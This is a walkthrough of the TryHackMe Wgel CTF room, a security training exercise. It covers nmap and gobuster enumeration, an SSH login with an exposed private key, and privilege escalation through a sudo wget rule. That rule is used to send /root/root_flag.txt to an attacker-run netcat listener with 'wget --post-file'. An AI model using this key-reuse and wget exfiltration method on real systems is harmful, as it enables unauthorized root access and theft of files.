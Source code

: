 # Wgel CTF

TryHackMe room link : [Wget CTF](https://tryhackme.com/room/wgelctf)

## Nmap

`nmap -T 4 -sV 10.10.183.122`

```

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 22:58 EDT
Warning: 10.10.183.122 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.183.122
Host is up (0.22s latency).
Not shown: 996 closed ports

PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
1999/tcp filtered tcp-id-port
3322/tcp filtered active-net

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.00 seconds
```

## Gobuster

`gobuster dir -u http://10.10.183.122 -w /usr/share/wordlists/dirb/common.txt`

```

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.183.122
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/26 23:01:03 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 278]  
/sitemap              (Status: 301) [Size: 316] [--> http://10.10.183.122/sitemap/]
                                                                                   
===============================================================
2021/06/26 23:03:49 Finished
===============================================================
```

lets go to index.html

check source code of index.html

found a name J*****

use gobuster for /sitemap 

`gobuster dir -u http://10.10.183.122/sitemap/ -w /usr/share/wordlists/dirb/common.txt`

```

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.183.122/sitemap/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/26 23:07:29 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.ssh                 (Status: 301) [Size: 321] [--> http://10.10.183.122/sitemap/.ssh/]
/css                  (Status: 301) [Size: 320] [--> http://10.10.183.122/sitemap/css/] 
/fonts                (Status: 301) [Size: 322] [--> http://10.10.183.122/sitemap/fonts/]
/images               (Status: 301) [Size: 323] [--> http://10.10.183.122/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]                                         
/js                   (Status: 301) [Size: 319] [--> http://10.10.183.122/sitemap/js/]    
                                                                                          
===============================================================
2021/06/26 23:10:01 Finished
===============================================================
```

let check .ssh

there is a id_rsa file

we will use this to try to login in ssh 

## SSH

before trying to login, change permission on id_rsa ` chmod 600 id_rsa`

`ssh j*****@10.10.183.122 -i id_rsa`

```

Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

j*****@CorpOne:~$
```

logged in successfully

lets find txt file 

```

j*****@CorpOne:~$ find / -type f -name *.txt 2>/dev/null


j*****@CorpOne:~$ cat /home/j*****/Documents/user_flag.txt
************************************
```
lets find what sudo permission j***** user have

`sudo -l`

```

Matching Defaults entries for j***** on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User j***** may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

lets use GTFOBins for wget

## Get root flag

using GTFOBins we know we can use 

`sudo wget --post-file=FILE_NAME http://IP:PORT`

we have to start nc listener on local system

`nc -lvp 9001`

__we know that in TryHackMe, root text file is mostly in /root directory, since user flag was named user_flag.txt, lets try to send  root_flag.txt from /root__

`sudo wget --post-file=/root/root_flag.txt  http://10.9.4.169:9001`

```

nc -lvp 9001
listening on [any] 9001 ...
10.10.183.122: inverse host lookup failed: Unknown host
connect to [10.9.4.169] from (UNKNOWN) [10.10.183.122] 48092
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.9.4.169:9001
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

**********************************          <---- (root_flag.txt)
```

